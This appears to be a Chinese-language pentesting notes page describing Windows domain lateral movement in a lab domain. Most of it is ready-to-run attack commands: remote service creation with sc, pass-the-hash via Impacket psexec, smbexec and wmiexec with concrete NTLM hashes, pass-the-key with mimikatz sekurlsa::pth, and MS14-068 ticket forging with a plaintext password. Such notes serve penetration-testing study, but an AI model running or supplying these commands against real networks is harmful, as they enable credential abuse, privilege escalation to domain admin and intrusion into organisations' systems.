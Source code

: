 ~~~
sc \\owa create bsshell binpath= "c:\batman-batman.exe"
sc \\owa start bsshell


psexec -hashes :NTLM值 域名/域用户@域内ip地址
smbexec -hashes :NTLM值 域名/域用户@域内ip地址
wmiexec -hashes :NTLM值 域名/域用户@域内ip地址
python psexec.py -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
python smbexec.py -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
python wmiexec.py -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32

~~~

~~~python
# 如下，利用psexec进行pth横向移动拿到域控
python psexec.py -hashes :069f3f91c44c631880d58af546516f45 god/administrator@192.168.52.138
~~~

[![p99yC8I.png](https://s1.ax1x.com/2023/04/16/p99yC8I.png)](https://imgse.com/i/p99yC8I)

~~~python
# 利用smb横向移动
python smbexec.py -hashes :069f3f91c44c631880d58af546516f45 god/administrator@192.168.52.138
~~~

![image-20230416135647101](C:\Users\batma\AppData\Roaming\Typora\typora-user-images\image-20230416135647101.png)



#### PTK

~~~
pass the key
ekeys 256 NTLM认证攻击

#域横向移动-PTK-Mimikatz&AES256
PTK = Pass The Key，当系统安装了KB2871997补丁且禁用了NTLM的时候，
那我们抓取到的ntlm hash也就失去了作用，但是可以通过PTK的攻击方式获得权限。
mimikatz sekurlsa::ekeys
mimikatz sekurlsa::pth /user:域用户名 /domain:域名 /aes256:aes256值
~~~







#### PTT

~~~
//1.利用ms14-068.exe  这是漏洞，可以利用票据提升到域控管理员权限
pass the ticket
利用票据凭证TGT进行渗透-基于Kerberos认证攻击
//获取当前用户的SID值  S-1-5-21-2952760202-1353902439-2381784089-500
shell whoami/user
//利用生成票据文件,如图
MS14-068.exe -u administrator@god.org -s S-1-5-21-2952760202-1353902439-2381784089-500 -d 192.168.52.138 -p A@2019gaokaowar
~~~
